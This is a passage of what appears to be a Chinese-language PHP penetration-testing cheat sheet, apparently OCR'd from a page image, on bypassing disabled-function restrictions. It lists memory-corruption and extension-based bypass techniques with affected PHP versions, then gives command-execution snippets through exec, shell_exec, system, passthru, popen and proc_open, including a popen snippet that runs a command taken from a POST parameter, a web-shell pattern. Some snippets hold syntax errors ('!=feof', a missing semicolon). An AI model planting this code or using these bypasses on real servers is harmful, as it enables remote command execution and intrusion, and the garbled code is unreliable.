 ```php
	Linux系统
	PHP版本 -->7.0-7.3all version to date
10.利用Backtrace UAF
	Linux系统
	PHP版本-->7.0-7.2all version to date
	7.3<7.3.15 (released 20 Feb 2020)
	7.4<7.43(released 20 Feb 2020)
11.利用SplDoublyLinkedList UAC
	PHP v7.4.10及其之前版本
	PHP v8.0(Alpha)
12.利用FFI扩展执行命令
	Linux系统
	PHP>=7.4
	开启了FFI扩展且ffi.enable=true
13.利用ImageMagick
	目标主机安装了漏洞版本的imagemagick(<=3.3.0)
	安装了php-imagick拓展并在php.ini中启用
	编写php通过new imagick对象的方式来处理图片等格式文件
	PHP>=5.1
```

# 0x02 常规绕过（黑名单绕过）

```php
1.exec()
	<?php echo exec('whoami');?>

2.shell_exec()
	<?php echo shell_exec('whoami');?>
    //需要加echo才能显示结果
3.system()
	<?php system('whoami');?>

4.passthru()
	<?php passthru("whoami");?>
    
5.popen()
    <?php 
    	$command=$_POST['cmd'];
		$handle=popen($command,"r");//打开命令管道进行读取
		while(!=feof($handle)){//还没有到文末的话
            echo fread($handle,1024);//每次读取1024字节的数据
            //fread($handle,1024);
        }
		pclose($handle);
	 ?>
    
6.proc_open()
     <?php
        $command="ipconfig";
		$descriptorspec = array(1=>array("pipe","w"));//返回输出到一个数组
		$handle=proc_open($command,$descriptorspec,$pipes);
		//执行一个命令并且打开用来输入/输出的文件指针
		while(!=feof($pipes[1])){
            echo fread($pipes[1],1024)//这里同上
                //fgets($pipes[1],1024;)
        }
	  ?>
```
